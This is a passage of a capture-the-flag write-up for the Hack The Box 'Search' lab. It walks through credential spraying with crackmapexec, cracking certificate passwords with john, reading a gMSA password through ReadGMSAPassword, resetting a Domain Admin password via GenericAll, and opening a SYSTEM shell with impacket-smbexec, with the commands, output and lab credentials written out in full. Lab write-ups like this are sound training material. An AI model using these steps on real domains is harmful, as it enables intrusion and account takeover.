

```text
;;36!cried!INDIA!year!50;;
..10-time-TALK-proud-66..
??47^before^WORLD^surprise^91??
//51+mountain+DEAR+noise+83//
++47|building|WARSAW|gave|60++
!!05_goes_SEVEN_offer_83!!
~~27%when%VILLAGE%full%00~~
$$49=wide=STRAIGHT=jordan=28$$18
==95~pass~QUIET~austria~77==
//61!banker!FANCY!measure!25//
??40:student:MAYOR:been:66??
&&75:major:RADIO:state:93&&
**30*venus*BALL*office*42**
**24&moment&BRAZIL&members&66**
```

Let's save the usernames and passwords as files.

Then, I tested all credentials using `crackmapexec`.
I used `--no-bruteforce` option to make it try only with matched credentials.

```bash
┌──(kali㉿kali)-[~/htb/search]
└─$ crackmapexec smb 10.10.11.129 -u xlsx_users.txt -p xlsx_passwords.txt --no-bruteforce --continue-on-success

SMB         10.10.11.129    445    RESEARCH         [*] Windows 10 / Server 2019 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\Payton.Harmon:;;36!cried!INDIA!year!50;; STATUS_LOGON_FAILURE 
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\Cortez.Hickman:..10-time-TALK-proud-66.. STATUS_LOGON_FAILURE 
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\Bobby.Wolf:??47^before^WORLD^surprise^91?? STATUS_LOGON_FAILURE 
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\Margaret.Robinson://51+mountain+DEAR+noise+83// STATUS_LOGON_FAILURE 
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\Scarlett.Parks:++47|building|WARSAW|gave|60++ STATUS_LOGON_FAILURE 
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\Eliezer.Jordan:!!05_goes_SEVEN_offer_83!! STATUS_LOGON_FAILURE 
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\Hunter.Kirby:~~27%when%VILLAGE%full%00~~ STATUS_LOGON_FAILURE 
SMB         10.10.11.129    445    RESEARCH         [+] search.htb\Sierra.Frye:$$49=wide=STRAIGHT=jordan=28$$18 
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\Annabelle.Wells:==95~pass~QUIET~austria~77== STATUS_LOGON_FAILURE 
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\Eve.Galvan://61!banker!FANCY!measure!25// STATUS_LOGON_FAILURE 
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\Jeramiah.Fritz:??40:student:MAYOR:been:66?? STATUS_LOGON_FAILURE 
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\Abby.Gonzalez:&&75:major:RADIO:state:93&& STATUS_LOGON_FAILURE 
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\Joy.Costa:**30*venus*BALL*office*42** STATUS_LOGON_FAILURE 
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\Vincent.Sutton:**24&moment&BRAZIL&members&66** STATUS_LOGON_FAILURE 
```

Only a single credential is still valid : `Sierra.Frye` : `$$49=wide=STRAIGHT=jordan=28$$18`


# Shell as `sierra.frye`
### smb(139,445) - `sierra.frye`

```bash
┌──(kali㉿kali)-[~/…/search/smb/RedirectedFolders/sierra.frye]
└─$ tree
.
├── Desktop
│   ├── $RECYCLE.BIN
│   │   └── desktop.ini
│   ├── desktop.ini
│   ├── Microsoft Edge.lnk
│   └── user.txt
├── Documents
│   ├── $RECYCLE.BIN
│   │   └── desktop.ini
│   └── desktop.ini
├── Downloads
│   ├── $RECYCLE.BIN
│   │   └── desktop.ini
│   ├── Backups
│   │   ├── search-RESEARCH-CA.p12
│   │   └── staff.pfx
│   └── desktop.ini
└── user.txt

8 directories, 11 files
```

I found 2 certificates from `/Downloads` folder.

```bash
┌──(kali㉿kali)-[~/…/RedirectedFolders/sierra.frye/Downloads/Backups]
└─$ ls                  
search-RESEARCH-CA.p12  staff.pfx
```

I tried to import them, but it required password.



Let's extract hash from the certificates first.

```bash
┌──(kali㉿kali)-[~/…/RedirectedFolders/sierra.frye/Downloads/Backups]
└─$ pfx2john search-RESEARCH-CA.p12 > search-RESEARCH-CA.p12.hash


┌──(kali㉿kali)-[~/…/RedirectedFolders/sierra.frye/Downloads/Backups]
└─$ pfx2john staff.pfx > staff.pfx.hash         
```


Then crack the hash using `john`.

```bash
┌──(kali㉿kali)-[~/…/RedirectedFolders/sierra.frye/Downloads/Backups]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt search-RESEARCH-CA.p12.hash   
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 128/128 ASIMD 4x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
misspissy        (search-RESEARCH-CA.p12)     
1g 0:00:03:36 DONE (2025-03-10 23:51) 0.004625g/s 25367p/s 25367c/s 25367C/s misssnamy..missnono
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 


┌──(kali㉿kali)-[~/…/RedirectedFolders/sierra.frye/Downloads/Backups]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt staff.pfx.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 128/128 ASIMD 4x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
misspissy        (staff.pfx)     
1g 0:00:03:41 DONE (2025-03-10 23:55) 0.004515g/s 24763p/s 24763c/s 24763C/s mistel..missnono
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Cracked password for both certificates is `misspissy`.
Using this password, let's add these certificates to browser.

I visited `/staff` page, and it asked certificate info, I clicked "OK".





I filled out with pre-owned information.



Then, I can sign-in, and encounter Powershell session.




# Auth as `BIR-ADFS-GMSA`
### BloodHound

Let's run `bloodhound-python` to collect domain information with found credentials.

```bash
┌──(kali㉿kali)-[~/htb/search/bloodhound]
└─$ bloodhound-python -u hope.sharp -p IsolationIsKey? -d search.htb -c All -ns 10.10.11.129
```



Luckily, among the owned users(`sierra.frye`, `hope.sharp`, `edgar.jacobs`), only `sierra.frye` user has a path to `Domain Admins`.

Given the BloodHound result, here's the attack strategy;
- `sierra.frye` is a member of `BIRMINGHAM-ITSEC` group.
- `BIRMINGHAM-ITSEC` belongs to `ITSEC` group.
- `ITSEC` has `ReadGMSAPassword` rights on `BIR-ADFS-GMSA` user.
- `BIR-ADFS-GMSA` has `GenericAll` permission on `tristan.davies` user.
- `tristan.davies` is a member of `Domain Admins` group.

### Abuse `ReadGMSAPassword` right

Here's the [reference]($gmsa = Get-ADServiceAccount -Identity 'BIR-ADFS-GMSA' -Properties 'msDS-ManagedPassword') to abuse the `READGMSAPassword` right.

```powershell
PS C:\Users\Sierra.Frye\Documents> $gmsa = Get-ADServiceAccount -Identity 'BIR-ADFS-GMSA' -Properties 'msDS-ManagedPassword'
PS C:\Users\Sierra.Frye\Documents> $mp = $gmsa.'msDS-ManagedPassword'
PS C:\Users\Sierra.Frye\Documents> ConvertFrom-ADManagedPasswordBlob $mp
 
 
Version                   : 1
CurrentPassword           : ꪌ絸禔හॐ๠뒟娯㔃ᴨ蝓㣹瑹䢓疒웠ᇷꀠ믱츎孻勒壉馮ၸ뛋귊餮꤯ꏗ춰䃳ꘑ畓릝樗껇쁵藫䲈酜⏬궩Œ痧蘸朘嶑侪糼亵韬⓼ↂᡳ춲⼦싸ᖥ裹沑᳡扚羺歖㗻෪ꂓ㚬⮗㞗ꆱ긿쾏㢿쭗캵십ㇾେ͍롤ᒛ�䬁ማ譿녓鏶᪺骲雰騆惿閴滭䶙竜迉竾ﵸ䲗蔍瞬䦕垞뉧⩱茾蒚⟒澽座걍盡篇
SecureCurrentPassword     : System.Security.SecureString
PreviousPassword          : 
SecurePreviousPassword    : 
QueryPasswordInterval     : 3062.06:26:26.3847903
UnchangedPasswordInterval : 3062.06:21:26.3847903
```

It might not be proper to directly use this credential since it's hard to type in.

```powershell
PS C:\Users\Sierra.Frye\Documents> 
(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword | ConvertTo-NTHash
e1e9fd9e46d0d747e1595167eedcec0f

PS C:\Users\Sierra.Frye\Documents> 
(ConvertFrom-ADManagedPasswordBlob $mp).CurrentPassword
ꪌ絸禔හॐ๠뒟娯㔃ᴨ蝓㣹瑹䢓疒웠ᇷꀠ믱츎孻勒壉馮ၸ뛋귊餮꤯ꏗ춰䃳ꘑ畓릝樗껇쁵藫䲈酜⏬궩Œ痧蘸朘嶑侪糼亵韬⓼ↂᡳ춲⼦싸ᖥ裹沑᳡扚羺歖㗻෪ꂓ㚬⮗㞗ꆱ긿쾏㢿쭗캵십ㇾେ͍롤ᒛ�䬁ማ譿녓鏶᪺骲雰騆惿閴滭䶙竜迉竾ﵸ䲗蔍瞬䦕垞뉧⩱茾蒚⟒澽座걍盡篇
```

Instead, I can save it as `$cred` and use it as the PS variable.
Let's save this as a `$cred` for the later use.

```powershell
PS C:\Users\Sierra.Frye\Documents> 
$password = (ConvertFrom-ADManagedPasswordBlob $mp).CurrentPassword

PS C:\Users\Sierra.Frye\Documents> 
$SecPass = (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword

PS C:\Users\Sierra.Frye\Documents> 
$cred = New-Object System.Management.Automation.PSCredential BIR-ADFS-GMSA, $SecPass
```


# Auth as `tristan.davies` / Shell as `SYSTEM`
### Abuse `GenericAll` right

Using this credential, I can abuse `GenericAll` right on `tristan.davies`.
Unlike the examples on the reference and BloodHound, I used `Invoke-Command` this time.
(refernced from 0xdf)

```powershell
PS C:\Users\Sierra.Frye\Documents> 
Invoke-Command -ComputerName 127.0.0.1 -ScriptBlock {Set-ADAccountPassword -Identity tristan.davies -reset -NewPassword (ConvertTo-SecureString -AsPlainText 'bokchee' -force)} -Credential $cred
```

After that, I checked the changed credential, and it worked!

```bash
┌──(kali㉿kali)-[~/htb/search]
└─$ crackmapexec smb 10.10.11.129 -u tristan.davies -p 'bokchee'     
SMB         10.10.11.129    445    RESEARCH         [*] Windows 10.0 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.129    445    RESEARCH         [+] search.htb\tristan.davies:bokchee (Pwn3d!)
```

Let's open a shell using `impacket-smbexec`.

```bash
┌──(kali㉿kali)-[~/htb/search]
└─$ impacket-smbexec tristan.davies:bokchee@10.10.11.129
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami

nt authority\system
```

I got `SYSTEM`'s shell!